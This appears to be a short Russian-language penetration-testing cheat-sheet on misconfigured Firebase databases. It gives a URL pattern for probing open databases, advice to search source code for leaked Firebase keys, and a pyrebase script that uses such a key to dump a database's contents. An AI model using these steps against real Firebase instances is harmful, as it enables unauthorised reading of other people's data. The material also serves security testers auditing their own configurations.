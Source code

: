 # Firebase

## Если кратко

Пробуем

```text
https://<databasename>.firebaseio.com/.json
```

## Firebase Database Takeover

Пример пентеста с плохо сконфигурированной базой - [https://medium.com/@danangtriatmaja/firebase-database-takover-b7929bbb62e1](https://medium.com/@danangtriatmaja/firebase-database-takover-b7929bbb62e1)

## Пример поиска и эксплуатации ключей Firebase

1 Ищем по коду подобные константы:  


![](../../.gitbook/assets/izobrazhenie%20%2814%29.png)

Пример работы с firebase базой с помощью `pip install pyrebase`

```text
import pyrebase

config = {
  "apiKey": "FIREBASE_API_KEY",
  "authDomain": "FIREBASE_AUTH_DOMAIN_ID.firebaseapp.com",
  "databaseURL": "https://FIREBASE_AUTH_DOMAIN_ID.firebaseio.com",
  "storageBucket": "FIREBASE_AUTH_DOMAIN_ID.appspot.com",
}

firebase = pyrebase.initialize_app(config)

db = firebase.database()

print(db.get())

```

Этот код отработает, если выставлены permissions на чтение для apiKey

В документации pyrebase можно найти другие примеры по работе с Firebase.

